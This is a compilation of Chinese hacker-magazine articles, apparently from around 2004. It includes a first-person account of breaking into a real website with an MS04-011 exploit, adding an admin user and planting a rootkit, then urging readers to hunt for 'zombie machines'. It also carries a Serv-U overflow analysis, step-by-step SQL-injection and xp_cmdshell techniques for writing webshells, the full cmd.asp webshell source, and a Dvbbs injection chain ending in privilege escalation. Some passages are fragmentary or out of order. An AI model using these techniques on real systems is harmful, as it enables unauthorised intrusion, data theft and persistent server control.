也许是 Access 数据库，先来找数据库连接文件 `conn.asp`，找到了的话有可能直接下载它的数据库的哦！先输入 `http://www.xxx.com/inc/`，返回 HTTP 404 — File not found，说明这个目录不存在了，如果存在的话他会返回你没有权限访问这个目录（403）。猜了半天，把常见的脚本位置都猜过了，最后还是把 `conn.asp` 地址给猜出来了，地址为 `http://www.xxx.com/coon/conn.asp`，躲得还挺隐蔽。下面直接访问这个地址，出现 HTTP 500 错误，呵呵，没关系，这是因为 IE 返回的信息没有设置成详细信息方式，我们改过来：在 IE 的工具→Internet 选项→“高级”中把“显示友好 HTTP 错误”勾掉，再访问那个地址，终于暴库了！


猜到数据库的地址为 `www.xx.com/database/#zwgd_server.cgi`，用 FlashGet 下载下来把文件改为 `data.mdb`，再用 Office 读取，成功获得新闻管理员的 PASS 和 ID！好，成功了一步了。接下来就猜后台，猜了 N 次也没有猜到，包括 `chklogin.asp` 这些都猜了，就是猜不到，郁闷（其实从数据库后缀为 `cgi`，可以看得出来，管理员还是有一点安全意识的），看来只能从系统漏洞入手了！

先扫描端口，发现开了 25、53、80、110、135、139、445、1433 这几个端口，先分析目标是用的何种 MAIL 系统，Telnet 上去，提取 Banner，发现是 Web-EasyMail，一个挺安全的 MAIL 系统，再破解了一些 SQL Server 的口令也没有猜出来。极度郁闷中——就在绝望时，SBAA 给我发来消息说他把 MS04-011 的漏洞利用程序写好了，正好可以帮他测试一下（现在这个程序已经放在光盘里了，大家慢慢用吧，成功率挺高的）。

好，我们来看看这个漏洞利用程序！这是针对 `cn` 和 `en` 的，从 HTTP 返回的错误信息可以看出目标机器是中文版的 Windows，再 GET IIS Banner，是 IIS5，哈，这下正好可以利用这个程序。在这之前，我们先来看看这个漏洞的描述：

Microsoft Windows LSA 是本地安全授权服务（LSASRV.DLL），LSASS DCE/RPC 末端导出的 Microsoft 活动目录服务存在一个缓冲区溢出，远程攻击者可以利用这个漏洞以 SYSTEM 权限在系统上执行任意指令。一些活动目录服务在 Windows 目录中的 “debug” 子目录里生成调试日志文件，在 LSASRV.DLL 实现的记录函数写信息条目到日志文件中，这里的 vsprintf() 函数用于建立日志条目。由于对提供给这个函数的字符串参数缺少正确的边界缓冲区检查，超长字符串可导致缓冲区溢出。部分 RPC 函数接收此字符串作为参数并尝试写调试日志文件，利用这些 RPC 函数，可能以 System 权限在系统上执行任意指令。

上面是从绿盟获得的漏洞信息，可以看出这个跟 RPC 有关，如果这样的话 135 端口应该是开放的才能利用，而且目标机器是开放 135 的，正好可以测试。现在就可以拿这个新东西试试，如图 1 所示。

……和 XP 都有效，爽！迫不及待地开始测试。我使用的参数是 `ms04011 0 ip`，成功溢出后开一个端口为 1234 的 Shell，程序会显示：

```
shellcode size 404
Ret value = 1727 !
```

假如是 Ret value = 1727 的话，就说明溢出成功，也有出现 1726 的，但是出现 1726 的时候都没有溢出成功，不知道是什么问题。看见了 1727，赶快用 nc 连接对方的 1234 端口，成功得到权限！如图 2 所示。


我们可以从图 1 中看出这个程序对 EN、CN 的 2K 和 XP 都有效。

现在来检查一下获得的权限是什么类型权限，添加了一个用户，显示命令成功完成，再加到 Administrators 组也成功了，这下可以肯定是 System 权限了，真是爽啊！后来我给目标种了一个 Rootkit 就走人了，等到有需要的时候好好利用这台机器！哈哈，看来 MS04-011 的危害一点也不比 RPC DCOM 溢出差啊，赶快拿它去寻找你们心目中的肉鸡吧！

# 脚本小子

几个月前，KKQQ 首先发现了 Serv-U 的远程缓冲区溢出，并在本刊发布了漏洞分析。当时由于 Serv-U FTP 的使用范围非常广，所以该漏洞造成了很大的危害。很多虚拟主机服务商因为都是用的这个 FTP 服务器，所以几乎都被这个漏洞入侵过。Serv-U 的厂商也赶紧发布了补丁，可惜，当网络上各服务器管理员都还在忙着为 Serv-U 打补丁的时候，最新的漏洞又出现了！网络，再一次陷入恐慌，你知道是什么漏洞吗？

- 难度等级：高
- 适合读者：程序员、安全爱好者
- 前置知识：Windows 缓冲区溢出技术知识

# Serv-U v5.0.0.4 远程缓冲区溢出分析

## —— Serv-U v5.0.0.4 and prior 畸形文件名远程溢出

> Author: eyas <eyas at xfocus.org>
>
> Discover: Der Ago <maillist at bastart.eu.org>

这个漏洞在 v5.0.0.9 中已经修补，最新的版本已经不能构成危害。虽然漏洞比较简单，但要有效地利用却是比较困难的。要触发这个漏洞必须有一个没有被锁定在根目录的账号，因为 Serv-U 是在处理畸形文件名时产生的栈溢出，所以用能带目录名/文件名的命令都可以触发它。

以下我们基于 v5.0.0.0 简单分析一下。溢出发生在 sub_4412DC 函数，在用户权限检查之前，相关部分汇编代码如下：

> 脚本小子：汇编代码中的 `[ebp+src]` 即 `[ebp-0x1084]`，`[ebp+dest]` 即 `[ebp-0x10]`。`[ebp+src]` 中的内容是相关命令操作中的文件名/目录名的全路径。例如，你发送的命令是 `size xfocus.txt`，假设当前账号的根目录是 `c:\`，那么 `[ebp+src]` 中的内容就是 `c:\xfocus.txt\`。

- （1）判断前两个字节是否都是否 0x5C，是的话继续往下搜索 0x5C。

```asm
.text:004417BD    movsx   edx, [ebp+src]      ; 全路径
.text:004417C4    cmp     edx, 5Ch
.text:004417C7    jnz     short loc_441804
.text:004417C9    movsx   ecx, [ebp+var_1083]
.text:004417D0    cmp     ecx, 5Ch
.text:004417D3    jnz     short loc_441804
.text:004417D5    push    5Ch                ; 如果全路径的前两个字节都是 5C，
.text:004417D5                               ; 那么从第三个字节开始搜索 5C
.text:004417D7    lea     eax, [ebp+var_1082]
.text:004417DD    push    eax
.text:004417DE    call    j_strchr_0
.text:004417E3    add     esp, 8
.text:004417E6    mov     [ebp+dest], eax    ; 把返回的地址保存在堆栈
.text:004417E9    mov     edx, [ebp+dest]
.text:004417EC    test    edx, edx
.text:004417EE    jz      short loc_441818   ; 没搜索到则跳转
.text:004417F0    push    5Ch
.text:004417F2    mov     ecx, [ebp+dest]
.text:004417F5    inc     ecx                ; 地址 +1，继续搜索 5C
.text:004417F6    push    ecx
.text:004417F7    call    j_strchr_0
.text:004417FC    add     esp, 8
.text:004417FF    mov     [ebp+dest], eax    ; 把返回的地址保存在堆栈
.text:00441802    jmp     short loc_441818

; 如果全路径的第一个字节不是 0x5C，那么搜索第一个 5C 出现的地址，保存至 dest：
.text:00441804 loc_441804:                   ; CODE XREF:
.text:00441804                               ; sub_4412DC+4EB16j
.text:00441804                               ; sub_4412DC+4F716j
.text:00441804    push    5Ch
.text:00441806    lea     eax, [ebp+src]
.text:0044180C    push    eax
.text:0044180D    call    j_strchr_0
.text:00441812    add     esp, 8
.text:00441815    mov     [ebp+dest], eax
```

- （2）判断 [ebp+dest] 值是否不为 0，是的话继续。

```asm
.text:00441818 loc_441818:                   ; CODE XREF:
.text:00441818                               ; sub_4412DC+51216j
.text:00441818                               ; sub_4412DC+52616j
.text:00441818    mov     edx, [ebp+dest]
.text:0044181B    test    edx, edx
.text:0044181D    jnz     short loc_441828
```

- （3）取 buffer 地址到 ebx，继续。下面就是开始有趣的循环了。

```asm
.text:00441828 loc_441828:                   ; CODE XREF:
.text:00441828                               ; sub_4412DC+54116j
.text:00441828    lea     ebx, [ebp+src]
.text:0044182E    jmp     short loc_441897
```

- （4）循环。

> 详细代码及其分析请看光盘。

其实流程比较简单：


我们将上述汇编代码还原成 C 语言的话，大致如下：

```c
int   var[3];
char  *pDest;
int   var_14;
char  buff[0x1070];
char  *ptr, *pSrc;
char  *pTmp, *pSearch;
int   len, count, num;

if (buff[0] == '/' && buff[1] == '/')
{
    pDest = strstr(buff + 2, "/");
    if (pDest)
        pDest = strstr(pDest + 1, "/");
}
else
{
    pDest = strstr(buff, "/");
}

if (!pDest)
    exit;

pSearch = buff;
while (strstr(pSearch, "\\.."))
{
    ptr = strstr(pSearch + 1, "\\");
    if (!ptr)
    {
        pSrc = buff + 4;
    }
    else
    {
        pSrc = ptr;
        count = 1;
        pTmp = buff + 1;
        num = ptr - pSearch;
        while (count < num)
        {
            if (*pTmp != '.')
            {
                var_14 = 0;
            }
            pTmp++;
            count++;
        }
    }

    if (var_14 == 0)
        pSearch++;
}
else
{
    len = strlen(pSrc);
    len++;
    memmove(pDest, pSrc, len);
}
```

从上述代码中可以看到，需要 buff 中有“\\...”才能进入循环。假如我们发送的命令是“size \\...\\xfocus.txt”，那么 [ebp+src] 中的内容就是


在经过一次 memmove 后，[ebp+src] 中的内容就变成“c:\xfocus.txt\”了，循环也就随之结束。

假如 dest<=src，那么上述代码永远都是不会出问题的，但假如 dest>src 呢？（这里的大于/小于指的是内存地址的高低），假如我们发送如下命令“size \\...\\aaaa\xfocus.txt”，[ebp+src] 中的内容是什么？分两种情况：

- （1）用户被锁定在根目录“c:\...\aaaa\xfocus.txt\”；
- （2）用户没有被锁定在根目录“\\...\aaaa\xfocus.txt\”。

第一种情况 dest<src。

第二种情况，“\\...\aaaa\xfocus.txt\”


经过 memmove 之后，内容变成“\\...\aaaa\aaaa\xfocus.txt\”。在接着的死循环中，dest 和 src 地址都不会变，唯一改变的只有 memmove 的长度。所以要触发这个溢出必须有一个没有被锁定在根目录的账号，即使这个账号没有任何读写权限。或者你有其他方法能让锁定的账号也能触发？有的话恳请你赐教。

这是个 Stack 溢出，直接覆盖 SEH 或者 sub_4412DC 函数的返回地址就可以了，是吗？非也！有两个比较麻烦的问题。首先，我们陷入的是一个死循环；其次，dest 保存在 [ebp-0x10] 处，这个在溢出时会被覆盖掉。有哪些利用方法？

- （1）覆盖 sub_4412DC 函数的返回地址？覆盖之后跳不出死循环，函数不会返回。
- （2）覆盖 SEH。SEH 离 [ebp+src] 有大概 0x3DXX 左右，一直循环 memmove，直到 SEH 被覆盖，然后继续往前冲，一直到触发异常，SEH 接管。可惜 SEH 在没覆盖之前，[ebp+dest] 已经被覆盖，异常随之也触发了。
- （3）猜测 SEH 的地址，将此地址准确地覆盖在 [ebp+dest] 上，然后在 memmove 时 SEH 将被我们改写。可惜，我们陷入的是死循环，永远都触发不了异常。
- （4）猜测存放 memmove 函数的返回地址的地址，这么说有点绕口？在 memmove 时，堆栈中的内容如下：


- eip0 -> memmove 函数返回后的 EIP
- eip1 -> sub_4412DC 函数返回后的 EIP

猜测的地址落在哪段，对程序流程的影响都是不同的：

- A. eip0 我们可以控制，程序将转入执行我们的代码！（A 区域的范围取决于 X 的长度，X 的长度取决于 shellcode 的结构，但范围应该不会大于 0x1074）。
- B. eip0 无法控制，但 src 前面的几个关键字节“\\...”将被我们改写，eip1 受我们控制，所以程序将退出死循环，在 sub_4412DC 函数返回后，程序将转入执行我们的代码（B 区域的长度只有 0x1C！退出死循环后，sub_4412DC 函数返回前，好像会有异常？反正 B 区域就这么点，不管这个了，你能猜中那就恭喜你了）。
- C. [ebp+dest] 将被再次改写，写入的内容比较难控制。
- D. 程序陷入死循环（Serv-U 将失去响应）或崩溃。

在最初的测试中，memmove 函数的 retloc 地址（即存放 eip0 的地址）在同一版本的 Serv-U 中，每次都是固定的。结果我误认为它始终都是固定的，后来才发现我错了。由于 memmove 函数的 retloc 地址是动态的，用这种猜测 retloc 地址的方法成功率极低。

- （5）还有别的办法吗？有的。

| ver | src | dest | retloc_addr |
|---|---|---|---|
| 4.0.0.4 | 012f7f34 | 012f7f44 | 012f7f18 |

注：`dest` 与 `src` 的距离，取决于你 shellcode 的结构，例如：`\\\\...\\aaaaaaaaaaaaaaaa\\xfocus.txt`

# 如何给远程服务器写入文件


◎ 文／郑云文

在入侵的时候，有时发现了服务器上的漏洞，会在远程起作用，如果不加上 cmd.exe /c 则提示系统找不到指定的文件，因为 at 把“echo ***”当作了 command 参数（可执行程序的文件名），通过查看计划任务的日志（c:\winnt\SchedLgU.Txt）即可发现这一点。

在入侵的时候，有时发现了服务器上的漏洞，并取得了比较低的权限，这时候最好的选择就是上传文件进行进一步的控制，很多朋友都是采用 echo 来写入文件的，例如注册表文件、脚本 Shell、Ftp 参数、Sysocmgr 参数等。“皇帝饭的！”提供的那个 Get a Webshell 就是利用了这个原理。这种方法看似简单，但在实际操作时往往会发现写入的文件不正确，或者并没有真正写入，特别是在远程服务器上通过 SQL 注入或网页 Shell 写文件时更容易失败。最近很多朋友都在问这个技术，下面我们就来实际演示一下：如何利用各种基础条件向服务器上写入文件。

实验服务器平台：Windows Server 2000，IIS 5，MSSQL Server 2000，MySQL 4.0.18 For Win。

> **TIPS：echo 的基本用法**
>
> `echo [{on|off}] [message]`
>
> 其中，`{on|off}` 指定是否打开命令回显功能，`message` 指定在屏幕上显示文本，`/?` 在命令提示符显示帮助。
>
> 当使用 echo 命令时，要显示管道（`|`）或重定向字符（`<` 或 `>`），需要在管道或重定向字符的前面使用脱字符（`^`），例如，`^>`、`^<` 或 `^|`。如果需要使用脱字符（`^`），则要键入两个脱字符（`^^`）；当 message 被两个双引号括起来时，里面的特殊字符不用使用脱字符（`^`）。

## 2. SQL 注入写文件

- 1. 不含 `< > | & " ' % #` 等特殊符号（或含有成对双引号）时，可以直接写入文件：

```sql
exec master..xp_cmdshell 'echo "Test"=dword:00000001 > c:\temp.reg'
```

- 2. 大家最常遇到的估计还是含 `< > | & " + ' % #` 等符号的写入情况，比如写入脚本然后让管理员重新启动再获得权限等，如果不做数据转换是写入不成功的，转换对应如下：

| 字符 | 转换 |
|---|---|
| `"` | `%5E%5E"` |
| `<` | `%5E%3C` |
| `>` | `%5E%3E` |
| `|` | `%5E%7C` |
| `&` | `%5E%26` |
| `"` | `%5E%22` |
| `'` | `%27%27`（比较特殊，单引号转换为两个单引号） |
| `+` | `%2B` |
| `%` | `%25` |
| `#` | `%23` |

> **注意**
>
> 双引号如果成对出现且不转换，则内部特殊字符只转换为 ASCII 码，而且前面不加 `%5E`，但两个双引号内部的单引号要转换为两个单引号，否则会出错，因此建议将特殊字符全部转换，这样处理较方便。

例如：写入脚本 Shell（cmd.asp）

```sql
exec master..xp_cmdshell 'echo *** > c:\inetpub\wwwroot\cmd.asp'

exec master..xp_cmdshell 'echo *** >> c:\inetpub\wwwroot\cmd.asp'
```

## 1. 在本地使用 at 命令

例如：建立 IPC 连接之后将“Test”=dword:00000000 写入对方 c:\temp.reg。如果使用 at \\192.168.1.109 18:01 echo "Test"=dword:00000000 > c:\temp.reg，或者 at \\192.168.1.109 18:01 "echo \"Test\"=dword:00000000 > c:\temp.reg" 都是不能成功的。经反复测试，发现严格按照下列格式才能写入成功：

```bash
at \\192.168.1.109 18:01 cmd.exe /c "echo \"Test\"=dword:00000000 > c:\temp.reg"
```

如果不用双引号将命令包含进来，则重定向 `>` 不会在远程起作用。

转换后的 cmd.asp 内容如下：

```asp
<%@ LANGUAGE="VBSCRIPT" %>
<%
On Error Resume Next
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
cmd = Request.Form("CMD")
If cmd <> "" Then
  szTempFile = oFileSys.GetTempName()
  Call oScript.Run("cmd.exe /c " & cmd & " > " & szTempFile, 0, True)
  Set oFile = oFileSys.OpenTextFile(szTempFile, 1, False, 0)
End If
%>
<HTML><BODY><FORM action="<%= Request.ServerVariables("URL") %>" method="POST">
<input type=text name="CMD" size=45 value="<%= cmd %>">
<input type=submit value="Execute">
</FORM><pre>
<%
If IsObject(oFile) Then
  On Error Resume Next
  Response.Write Server.HTMLEncode(oFile.ReadAll)
  oFile.Close
  Call oFileSys.DeleteFile(szTempFile, True)
End If
%>
</pre></BODY></HTML>
```

逐行复制到 URL 中，完成后效果如下：


## 3. 脚本 Shell 中写文件（以 cmd.asp 为例）

在网页 Shell（cmd.asp）中直接使用 echo *** > filename 写文件是不成功的，对于普通可写目录可以这样操作：

```bash
cmd.exe /c "echo \"Test\"=dword:00000000 > c:\temp.reg"
```

脚本 Shell 中输入的指令是以 IWAM_HOSTNAME 身份运行的，权限较低，如果没有目录可写该怎么办呢？如果通过其他方法获取了管理员账号和密码，还是有办法的（这个办法特别适合获取了管理员账号和密码，却被防火墙挡在外面或服务器未开任何共享的情况）。首先，在 cmd.asp 中让服务器跟它自己建立 IPC 连接。

```bash
net use \\127.0.0.1\ipc$ password /user:administrator
net use z: \\127.0.0.1\c$
```

将 C 盘映射为 Z 盘，如果没有共享 c$，就使用 `at \\127.0.0.1 18:02 net share c$=c:\` 打开，这时对 Z 盘（其实就是 C 盘）就可以像管理员一样读写了。既然我们已经建立 IPC 连接了，如果是写仅有一两行的小文件的话，用下面的命令就够了：

```bash
at \\127.0.0.1 18:01 cmd.exe /c "echo *** > filename"
```

## 4. MySQL 弱密码入侵并写文件

从已安装 MySQL 的机器上（例如 `C:\mysql\bin`）复制一个 mysql.exe 到自己工作目录下，先建立连接

```bash
mysql -h192.168.1.109 -uroot -p123456
mysql> use test;
```

创建一个临时表写文件（文件中双引号都要转换为两个双引号，`\` 转换为两个 `\\`，其他不变）：

```sql
mysql> create table tmp (ccmmdd TEXT);
mysql> insert into tmp values ('写入的文件行');
......
```

再逐行写入 Shell 文件，输入错误可以删掉该行 `delete from tmp where ccmmdd like "开始几个字母%"`，这几个字母要求不能与其他行重复，否则删除多行。

```sql
mysql> select * from tmp into outfile "c:\\inetpub\\wwwroot\\ccc.asp";
mysql> drop table tmp;
```

如果网站路径没错的话，就得到一个网页 Shell 了，你可以编辑好 SQL 语句保存为文件 sql.txt，使用时直接输入下列命令：

```bash
mysql -h192.168.1.109 -uroot -p123456 < sql.txt
```

上面几类情况是我们在入侵中经常遇到的，如果能成功地往服务器上写入文件，上传、下载、执行都不是问题了，离完全控制服务器也就不远了，希望此文能给大家带来一些帮助。

# 脚本小子

**脚本小子：**动网论坛一直是国内非常权威的 Asp 中文论坛，而 Dvbbs 7 更是众安全论坛中的明星。当动网 7 刚发布的时候，无数喜欢安全的朋友对它的源代码进行了分析，大多数朋友都得出了“非常安全”的结论。的确，动网 7 的安全性有很大提高，但是，绝对没有任何 100% 安全的程序在网络中存在！动网 7 的最新漏洞足以证明这一点！

# 将 DVBBS 7.0 拉下马


- 难度等级：中
- 适合读者：脚本入侵爱好者
- 前置知识：SQL 注入基础知识

文／图 firstsee

- 漏洞文件：AccessTopic.asp
- 影响版本：Dvbbs 7.0 任何版本 + MSSQL
- 测试版本：Dvbbs 7.0 + SP1 + MSSQL
- 测试环境：Windows 2000 Advanced Server + SQL Server 2000

动网论坛 7.0 自从发布以来，进一步扩大了其在 Asp 论坛领域的声誉和好评，无论是在美工、性能、安全性和效率上都比上一个版本有了很大的进步。在读代码的时候给我的唯一感觉就是“美”，但是网络上没有 100% 的安全，代码写得再严谨也会有疏忽的地方。为了找出它的漏洞，我就像大海捞针一样在茫茫的代码中寻觅，蓦然回首，那漏洞却在灯火阑珊处。哈哈，请跟我来看一看吧！

很明显，代码对 request.form("Announceid") 的值只进行了单引号的过滤，幸好在 SQL 语句里面不是作为字符串使用，要不然就没有玩的了。要想突破这个单引号的限制非常简单，只要把我们需要用到的字符串用 SQL Encoder 进行转换一下，就可以直接使用了。其基本原理就是在 MSSQL 中自动地将 varbinary 类型的数据转换为 varchar 类型数据，然而这一点在 Asp 中一般是无法分辨出来的。在接下来的操作中涉及到字符串的部分，为了便于理解，我保留了原文。在实际操作中请用 SQL Encoder 进行转换一下，除非特殊情况不作说明。

### 1. 发现新大陆

打开 AccessTopic.asp 文件，翻到第 200～212 行，内容为：

### 2. 动网论坛的小鞋

这个文件在动网论坛中是用于待审核帖子的操作的，发现漏洞的过程为删除待审核帖子（request("actiontype")=2），但是这项功能只有在开放某一个版面的帖子审核功能的时候才可能用到，而且只有版主才能使用，其标志变量为在数据中的 Dv_Board.BoardSetting 列第 4 个数。

由于此功能默认是关闭的，大部分论坛也不会用到，所以将其评为低危险程度的漏洞。在利用的时候我们可以想像到 Access 数据库的功能低下，就仿佛是一个弱智一样，也就没有什么利用价值了，因此我只讨论使用 MSSQL 数据库的情况。

你可能会想，既然如此不就可以利用报错得到管理员密码的 md5 密文了吗，这可就错了。在论坛中每一个 SQL 语句的执行都是通过 Dvbbs.Execute 这个过程来实现的，相关代码可以在 inc\Dv_ClsMain.asp 中找到，在这个过程中过滤了 dv_admin 关键字。起初的时候我还想过用特殊的方法去构造语句，但是全部失败，如果你有什么办法成功了可别忘记告诉我啊。

由于 Announceid 是用 request.form 取得，在利用的时候就要构造本地提交表单，其内容为：

```vb
Sub freetopic()

For i=1 to request.form("Announceid").count
    ID=replace(request.form("Announceid")(i),"'","")
    '删除
    If request("actiontype")="2" Then
        Set Rs=Dvbbs.Execute("select rootid from "&Dvbbs.NowUsebbs&" where parentid=0 And Announceid="&id)
        If not (rs.eof And rs.bof) Then
            Dvbbs.Execute("delete from dv_topic where topicid="&rs(0))
            Dvbbs.Execute("delete from "&Dvbbs.NowUsebbs&" where rootid="&rs(0))
            FoundID=rs(0)
        Else
            Dvbbs.Execute("delete from "&Dvbbs.NowUsebbs&" where Announceid="&id)
            FoundID=0
        End If
    End If
```

```html
<form action="http://目标服务器地址及相关路径/access/topic.asp?action=freetopic" method="post" name="abcde">
  <input type="hidden" value="修改为拟开审核功能版面id的boardid值" name="boardid">
  <input name="actiontype" value="2" type="hidden">
  <textarea name="Announceid" cols="100" rows="20" id="Announceid"></textarea>
  <input name="submit" value="执行" type="submit">
</form>
```

只要在满足上述条件的情况下，将表单中的值设置好之后就可以往下看了。

### 3. 让我们知道自己的权力

在取得绝对路径之前先要判断当前数据库用户的权限，这里就遇到了一个问题：无论我们提交的语句是否成立，只要不产生错误，返回的信息都是相同的。你可能已经想到了，就是要将 Announceid 的值设置为一个已经存在的待审核帖子，在提交成功之后，如果这个帖子已经被删除，就说明我们的条件是正确的，否则就是错误的。在这里为了方便，假设每次执行都使用已经存在的 boardid=1 帖子，大家可以多发几个帖子等着审核。

由于在数据库的所有权限中只有 SysAdmin 才有利用价值，所以只需判断它就可以了。打开我们刚才构造的那个表单，并在另外一个页面中用该版版主账号登录，下面的操作都是在这种条件下完成的，因此不再提及。在 textarea 中填入：

```sql
1 and 1=(select is_srvrolemember('sysadmin'))
```

提交后根据上面提到的判断条件就可知道结果了。同样，也可以利用这种方法来判断是否存在 xp_cmdshell 存储扩展，提交语句为：

```sql
1 and 1=(select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell')
```

如果没有该权限的话就只能利用报错看一看前台管理员的密码了，需要提交的语句为：

```sql
1 and 1=(select top 1 UserPassword from Dv_User where UserGroupID=1)
```

如果你想让自己在论坛里面的权限得到提升的话，就去破解这个 md5 密文吧——据说破出来可以去买彩票哦！

在具有 SysAdmin 权限的情况下，就相当于得到了服务器的绝对控制权，接着往下看我是怎么利用该权限的吧。

### 4. 条条大路通罗马

现在，我们首先需要在服务器上挂上 WebShell，以方便我们下一步完全控制。很多朋友用 Xp_regread 存储扩展读取注册表的方法来获得 Web 绝对路径，但是经过我的测试后发现这种方法只能得到 Web 服务器安装时的默认路径，如果管理员够聪明的话肯定会修改这个值的，那就会导致上传 Asp 木马的失败。我想朋友们可能也体会过这种情况吧。

现在换个思路考虑，既然不能得到这个路径，那我们就在服务器上自己建一个虚拟目录，问题不就迎刃而解了吗？经过我的测试，提交下面的语句可以实现这个操作：

```sql
exec master.dbo.xp_cmdshell 'cscript C:\Inetpub\AdminScripts\mkwebdir.vbs -c localhost -w 1 -v "win" c:\winnt\'

exec master.dbo.xp_cmdshell 'cscript C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/1/Root/win/AccessExecute True'
```

这样，就在默认服务器下面建立了一个名为 win 的虚拟目录，其绝对路径为 c:\winnt\，并且具有执行动态脚本的权限。关于 mkwebdir.vbs 和 adsutil.vbs 的使用方法可以参考微软的 MSDN，它比我讲得明白。现在你可以通过访问 http://www.sitename.com/win/ 来判断是否创建成功：返回 403 错误说明创建成功，返回 500 错误说明创建失败。

你也许会发现一个问题，在使用 SQL Encoder 编码后提交语句没有一次成功过，难道语句有错误吗？但是如果你在查询分析器内测试的话它会成功地执行，问题出在数据类型转换上。在 MSSQL 中，exec 函数不能进行我们要求的这种数据类型转换，因此需要另外的一步操作。正确的提交代码为：

```sql
declare @a nvarchar(255)
select @a=0x...
exec(@a)
```

首先声明一个 `nvarchar(255)` 类型的变量，然后让赋值运算符去进行数据类型的转换。还有一点需要注意，在 MSSQL 中字符串内部的单引号要用两个单引号，但是在我们使用 SQL Encoder 进行编码的时候一定要坚持一个单引号的方针，执行表达式不能转换的数据类型交给赋值运算符的政策。后面的代码中基本上都要用到这种方法，所以为了灵活运用一定要记住它。

也许你会遇到服务器没有 `xp_cmdshell` 的情况，而且这个时候还没有取得 Web 绝对路径，建立 WebShell 根本就无从谈起。遇到这种情况也不要气馁，我们还有另外的一种方法可以完成这项操作。提交下面的语句：

```sql
declare @o int;

exec sp_oacreate 'wscript.shell', @o out;
exec sp_oamethod @o, 'run', NULL, 'cscript C:\Inetpub\AdminScripts\mkwebdir.vbs -c localhost -w "1" -v "win" "c:\www"';

exec sp_oacreate 'wscript.shell', @o out;
exec sp_oamethod @o, 'run', NULL, 'cscript C:\Inetpub\AdminScripts\adsutil.vbs set W3svc/1/root/win/AccessExecute True';
```

数据类型转换的问题可以利用刚才提到的方法去解决。一般的时候管理员很少会注意到 `sp_oacreate` 和 `sp_oamethod` 这两个存储扩展，你可以放心地去使用。

现在通往罗马的大路就在我们的面前，那就让我们跑起来吧！什么，你说开车更快点？哈哈。

### 5. 把跑车开上大路

知道了 Web 绝对路径以后，就可以写入 WebShell 了。据我所知的有 5 种方法可以实现。

- 1. N.E.V.E.R. 的通过使用数据备份的方法，虽然有大量垃圾数据的产生，但是对权限的要求很低，具体可参考以前黑防上发表的他的文章。
- 2. CZY 的使用 `sp_makewebtask` 存储扩展导出表中数据的方法，附加的数据量很少而且避免了使用 `xp_cmdshell` 存储扩展的情况，这种方法我已经在光盘中 `sp_makewebtask.txt` 给出详细的代码。
- 3. 使用 `xp_cmdshell` 执行批处理的方法，这种方法比较实用，没有任何多余数据的写入问题，在 `xp_cmdshell.txt` 文件中你可以找到详细的内容。可以用于只能连接服务器 80 端口的情况——如果有 3389 的话还用我说吗？
- 4. 利用 `sp_oacreate` 和 `sp_oamethod` 这两个存储扩展执行批处理的方法，使用的条件与 `xp_cmdshell` 相同，由于这种方法与（3）中几乎同出一辙就不再给出代码了。
- 5. 利用 `sp_oacreate` 和 `sp_oamethod` 这两个存储扩展调用 `scripting.filesystemobject` 对象进行文件的创建及写入操作，使用条件同上。在 `sp_oacreate&sp_oamethod.txt` 文件中有详细的代码。

在上述方法中给出的 WebShell 代码均是修改自海洋顶端的 `cmd.asp`，经过简化之后仅余 13 行关键部分，详细内容见光盘“杂志相关”内，本文的 `cmd.txt`。通过这个方法，我们就可以把 WebShell 写到服务器上了，下面的事就简单咯。

### 6. 把安全带系牢

你肯定发现了在数据库内的 System 权限在建立 WebShell 之后就成了 Guests 权限，这不是造成浪费了吗？为了继承勤俭节约的光荣传统，可以执行下面的 SQL 语句将浪费降低到最低的程度：

```sql
exec('master.dbo.xp_cmdshell ''net localgroup administrators IUSR_' + host_name() + ' /add''')
```

当然通过 `sp_oacreate` 和 `sp_oamethod` 这两个存储扩展执行也可以，关键在于灵活运用，因时制宜……什么？你问我接下来该干什么？我倒！你还是多买两本黑防看看吧，它会教你怎么做的。

## 结束语

其实这个漏洞的修补非常的简单，只要将代码中的：`ID=replace(request.form("Announceid")(i),"'","")`，这一句改为下面的语句就可以了：

```vb
ID = request.form("Announceid")(i)
If isnumeric(ID) then
    ID = CLng(ID)
Else
    ID = 0
End if
```

千万不要小看 `isnumeric` 函数的作用，修补漏洞可全靠它呢！

俗话说盖一座大楼很困难，但是想拆掉它却是很容易。如果想让自己设计的建筑更加牢固，就要更加完备地设计，即使细节的部分也不能放过，以免由于疏忽而导致蚁穴丛生。对于软件来说，就不仅仅是本身的坍塌了，有可能会带来毁灭性的灾难，甚至于危及整个服务器和服务器所在的网络，所以对于软件设计和测试的朋友来说肩上的担子很重，大家一起努力吧！

## 编后

总体来说，这个漏洞是比较难利用的，不但需要版主的权限而且还需要弄开了帖子审核，但一旦出现漏洞利用的前提，或者人为地去构造这样的条件，相信漏洞的危害就非同小可了。在动网如此普及的今天，任何一个微小的错误都可能导致网络上出现非常大的紊乱，动网的管理者们该重视这个问题了。如果你是用的动网的论坛，请赶快修改代码，希望下一个受伤的不是你。

# 脚本小子

**脚本小子：**BBS 的出现无疑给网络交流提供了更方便的方式，资料的保存和更新也得到了更好的保证，所以网络上一时各类论坛纷纷亮相，一个网站没有好的论坛几乎是不可思议的事，更不可能拥有好的人气。在这样的情况下，各类论坛暴露出来的安全问题就不容小视了，因为里面存储着很多人的个人信息，一旦泄露，隐患就大了。新推出的 Ofstar 论坛有很好的可使用性，但它的代码安全怎么样呢？请看 angel 给我们带来的分析：

- 难度等级：中
- 适合读者：脚本编写人员、入侵爱好者
- 前置知识：PHP 编写相关知识

# 直击 Ofstar 论坛安全

文／安全天使 angel


Ofstar 是 PHP 论坛新秀，第一印象看代码可读性不错，想当初没有黑防可以学习的时候，我学习 PHP 花了近 300MB 去打印 DVBB 的代码呢，就为了学习怎么写出可读性强的代码，唉，多么幸福的学习过程啊！这次我们来看看这个论坛有什么漏洞，花了一个小时的时间，在 Harry 的催促下，草草看了一下代码，结果发现 N 多漏洞，晕！

由于是在网吧看的代码，有部分漏洞并未有条件实践，但理论上却是存在的。写出来的目的是为了让更多 PHP 程序员借鉴，更多在于防范漏洞的思想，而不是攻击方法，攻击方法是多种多样的。

**涉及版本** Ofstar v2.0.0 SQL 正式版。

详细漏洞类型和利用方法：

### 1. 非法删除短消息漏洞

这个漏洞的破坏性实在是大，如果你的硬盘被别人格式化了，你还不知道怎么回事，可悲不？而这个漏洞就像这样的情况，我们将服务器上的数据删除完，管理员也不会知道！
